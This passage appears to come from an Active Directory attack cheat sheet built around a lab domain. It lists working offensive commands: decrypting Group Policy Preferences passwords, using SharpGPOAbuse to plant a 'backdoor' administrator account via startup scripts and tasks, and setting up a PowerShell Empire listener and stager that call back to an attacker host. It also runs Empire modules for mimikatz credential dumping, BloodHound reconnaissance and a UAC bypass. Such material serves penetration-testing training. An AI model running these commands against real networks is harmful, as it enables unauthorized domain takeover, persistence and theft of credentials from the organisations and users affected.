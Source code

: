 ```bash
# Decrypt Group Policy Preferences passwords
gpp-decrypt "encrypted_password_from_xml"

# Search for GPP files
findstr /S cpassword \\domain.local\sysvol\domain.local\Policies\*.xml
```

### SharpGPOAbuse

**Add Local Admin via GPO**
```
# Add user to local administrators
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount "SEVENKINGDOMS\tyrion.lannister" --GPOName "STARKWALLPAPER"

# Add computer startup script
.\SharpGPOAbuse.exe --AddComputerScript --ScriptName startup.bat --ScriptContents "net user backdoor Password123 /add && net localgroup administrators backdoor /add" --GPOName "STARKWALLPAPER"

# Add immediate task
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "Debug" --Author "SEVENKINGDOMS\Administrator" --Command "cmd.exe" --Arguments "/c net user debug Password123 /add" --GPOName "STARKWALLPAPER"
```

### Empire

**Setup & Agents**
```bash
# Start Empire server
sudo powershell-empire server

# Start client
powershell-empire client

# Create listener
(Empire) > listeners
(Empire: listeners) > uselistener http
(Empire: listeners/http) > set Host http://192.168.56.101:8080
(Empire: listeners/http) > execute

# Generate stager
(Empire) > stagers
(Empire: stagers) > usestager windows/launcher_bat
(Empire: stagers/windows/launcher_bat) > set Listener http
(Empire: stagers/windows/launcher_bat) > generate
```

**Post-Exploitation Modules**
```bash
# Credential harvesting
(Empire: agents) > usemodule credentials/mimikatz/logonpasswords
(Empire: agents) > usemodule credentials/powerdump

# Situational awareness  
(Empire: agents) > usemodule situational_awareness/network/powerview/get_domain_controller
(Empire: agents) > usemodule situational_awareness/network/bloodhound

# Privilege escalation
(Empire: agents) > usemodule privesc/ask
(Empire: agents) > usemodule privesc/bypassuac_eventvwr
```
